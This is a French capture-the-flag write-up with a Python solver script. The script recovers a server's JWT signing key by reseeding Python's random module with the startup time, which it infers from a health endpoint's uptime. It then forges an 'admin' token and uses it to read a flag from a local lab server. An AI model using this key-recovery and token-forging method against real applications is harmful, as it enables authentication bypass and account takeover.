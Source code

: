 # Write Up

Pour ce challenge il est obligatoire d'automatiser la solution. Les étapes de résolution sont les suivantes :

1. Récupérer le timestamp de démarrage du serveur
2. Générer la clé secrète
3. Récupérer un token avec un pseudo
4. Décoder le token pour récupérer la clé secrète
5. Générer un token avec le pseudo `admin`
6. Envoyer le token `admin` dans les cookies pour récupérer le flag

Solution proposée

```python
import random, string, datetime, jwt, requests

def get_startup_ts():
    current_ts = datetime.datetime.now()
    r = requests.get("http://localhost:9000/health")
    response = r.json()
    uptime = float(response["uptime"])
    print("============= SOLVER =============\n\n[*] === Timestamps")
    print(f"Current timestamp: {current_ts.timestamp()}")
    print(f"Server uptime: {uptime}")
    return current_ts.timestamp() - uptime

def generate_secret_key(startup_ts):
    random.seed(int(startup_ts))
    return ''.join(random.choices(string.printable, k=16))

def get_token(username):
    payload = {
        "username": username,
    }
    r = requests.post("http://localhost:9000/", data=payload)
    response = r.json()
    return response["token"]

ts = get_startup_ts()
print(f"Startup timestamp: {ts}")
secret_key = generate_secret_key(ts)
print("==============================\n\n[*] === Secret key")
print(f"Secret key: {secret_key}")
token = get_token('drachh')

verify = jwt.decode(token, secret_key, algorithms=["HS256"])
print("==============================\n\n[*] === Token generated by the server")
print(f"Token: {token}")
#create a admin jwt
payload = {
    "username": "admin",
}
print("==============================\n\n[*] === Admin token payload")
print(payload)
print("==============================\n\n[*] === Admin token generated by the solver")
admin_token = jwt.encode(payload, secret_key, algorithm="HS256")
print(admin_token)
print("==============================\n\n[*] === Send admin token to /admin and get the flag")
# get /admin page with cookie token=admin_token
r = requests.get("http://localhost:9000/admin", cookies={"token": admin_token})
print(r.text)
print("==============================\n\n[*] === Done\n")
```
